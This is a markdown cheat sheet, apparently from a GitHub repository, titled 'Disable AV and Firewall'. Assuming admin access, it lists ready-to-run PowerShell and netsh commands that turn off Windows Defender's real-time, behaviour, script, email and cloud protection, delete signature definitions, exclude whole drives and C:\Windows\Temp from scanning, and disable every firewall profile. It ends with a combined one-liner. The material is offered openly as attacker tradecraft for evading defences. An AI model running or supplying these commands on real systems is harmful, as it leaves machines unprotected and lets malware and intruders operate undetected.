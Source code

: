 ## Disable AV and Firewall with 2 commands

### Requirements: Administrative/System level access

#### 1) 

    Set-MpPreference -DisableRealtimeMonitoring $True

#### 2) 

    netsh advfirewall set allprofiles state off

OR

    Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False

#### 3) 

    powershell  -c foreach ($disk in Get-WmiObject Win32_Logicaldisk){Add-MpPreference -ExclusionPath $disk.deviceid}

OR

    Add-MpPreference -ExclusionPath "C:\Windows\Temp"

# Disable Signature Checks from Defender (Won't kill the AV, but it will not alert any activity because of signature disablement)

#### execute -o cmd /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All

# AV Features disable

 Disables realtime monitoring

    Set-MpPreference -DisableRealtimeMonitoring $true

 Disables scanning for downloaded files or attachments

    Set-MpPreference -DisableIOAVProtection $true

 Disable behaviour monitoring

    Set-MPPreference -DisableBehaviourMonitoring $true

 Make exclusion for a certain folder

    Add-MpPreference -ExclusionPath "C:\Windows\Temp"

 Disables cloud detection

    Set-MPPreference -DisableBlockAtFirstSeen $true

 Disables scanning of .pst and other email formats

    Set-MPPreference -DisableEmailScanning $true

 Disables script scanning during malware scans

    Set-MPPReference -DisableScriptScanning $true

 Exclude files by extension

    Set-MpPreference -ExclusionExtension "ps1"

 Turn off everything and set exclusion to "C:\Windows\Temp"

    Set-MpPreference -DisableRealtimeMonitoring $true;Set-MpPreference -DisableIOAVProtection $true;Set-MPPreference -DisableBehaviorMonitoring $true;Set-MPPreference -DisableBlockAtFirstSeen $true;Set-MPPreference -DisableEmailScanning $true;Set-MPPReference -DisableScriptScanning $true;Set-MpPreference -DisableIOAVProtection $true;Add-MpPreference -ExclusionPath "C:\Windows\Temp"
